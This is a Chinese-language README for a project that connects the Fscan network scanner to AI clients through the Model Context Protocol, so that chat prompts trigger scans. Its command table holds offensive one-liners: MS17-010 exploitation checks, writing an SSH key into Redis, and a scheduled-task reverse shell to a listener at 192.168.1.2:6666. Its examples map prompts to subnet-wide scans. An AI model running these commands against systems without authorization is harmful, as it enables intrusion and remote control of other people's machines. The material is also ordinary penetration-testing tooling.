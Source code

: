 # Fscan MCP Server 模板
## 项目简介
Fscan MCP Server 是一个基于 **Model Context Protocol (MCP)** 的轻量级服务，旨在通过自然语言指令快速调用 **Fscan** 内网安全扫描工具。用户只需输入简单的中文提示（如 “帮我扫下 127.0.0.1 端口”），即可自动触发预设的 Fscan 命令，实现扫描任务的自动化执行。

### 核心功能
**自然语言触发**：支持通过中文指令直接调用 Fscan 扫描（如 “扫描 192.168.1.1/24 网段”）。
**内置命令模板**：预定义常见扫描场景（端口扫描、漏洞检测、服务爆破等），可快速扩展新指令。
**MCP 协议集成**：通过标准化协议与 MCP 客户端（如 Cursor、Claude Desktop）无缝对接，支持动态发现和安全权限控制。

## 安装指南
### 环境要求
Python 3.8+
MCP 客户端（如 [Cursor](https://www.cursor.so/) 或 [万径千机](https://github.com/xxx/wanjingqianji)）
需要在mcp_Server同目录下放置fscan.exe

### 步骤 1：安装依赖

```
pip install mcp==1.0.0
```

### 步骤 2：配置 MCP 客户端

以 **Cursor IDE** 为例：

创建配置文件 `mcp.config.json`：

```
{

&#x20; "mcpServers": {

&#x20;   "fscan-mcp-server": {

&#x20;     "name": "Fscan 内网安全扫描工具",

&#x20;     "command": "uv",

&#x20;     "args": \[

&#x20;       "--directory",

&#x20;       "\${WORKSPACE}/fscan\_MCP",

&#x20;       "run",

&#x20;       "--with",

&#x20;       "mcp",

&#x20;       "mcp",

&#x20;       "run",

&#x20;       "fscan\_mcp\_server.py"

&#x20;     ],

&#x20;     "disabled": false,

&#x20;     "autoApprove": \[]

&#x20;   }

&#x20; }

}
```
将配置文件导入 MCP 客户端（路径需根据实际项目调整）。

## 使用示例

### 触发指令

```
用户输入：帮我扫下127.0.0.1端口

模型调用：fscan.exe -h 127.0.0.1 -p 1-65535 -nopoc
```

### 扩展指令模板

在 `commands.json` 中添加新规则：



```
{

&#x20; "触发词": "扫描C段",

&#x20; "参数": {

&#x20;   "target": "192.168.1.1/24",

&#x20;   "ports": "1-1000",

&#x20;   "modules": "all"

&#x20; },

&#x20; "命令": "fscan.exe -h {target} -p {ports} -m {modules}"

}
```
## Fscan 功能支持

| 功能模块      | 指令示例                   | 对应 Fscan 命令                                     |
| --------- | ---------------------- | ----------------------------------------------- |
| 端口扫描      | 扫描 192.168.1.1 的 80 端口 | `fscan.exe -h 192.168.1.1 -p 80`                |
| 漏洞检测      | 检测 MS17-010 漏洞         | `fscan.exe -h 192.168.1.1 -m ms17010`           |
| Redis 写公钥 | 向 Redis 服务器写入 SSH 公钥   | `fscan.exe -h 192.168.1.1 -rf id_rsa.pub`       |
| 反弹 Shell  | 计划任务反弹 Shell           | `fscan.exe -h 192.168.1.1 -rs 192.168.1.2:6666` |

## 项目结构
```

├── fscan_mcp_server.py  # MCP 服务入口

├── commands.json       # 指令模板配置

└── README.md           # 文档
```

## 贡献指南
**添加新指令**：在 `commands.json` 中定义触发词和对应命令。
**优化逻辑**：修改 `fscan_mcp_server.py` 中的参数解析或响应处理。
**文档完善**：补充使用案例或配置说明。
## 许可证
本项目采用 **MIT 许可证**，详情见 [LICENSE](LICENSE)。

## 参考资料
[Fscan 官方文档](https://github.com/shadow1ng/fscan)
[MCP 协议规范](https://github.com/anthropic/mcp)
[MCP 客户端配置指南](https://www.cursor.so/docs/guides/mcp)
通过本模板，您可以快速构建自定义的 AI 驱动安全扫描工具链，实现从自然语言指令到复杂渗透测试任务的自动化执行。
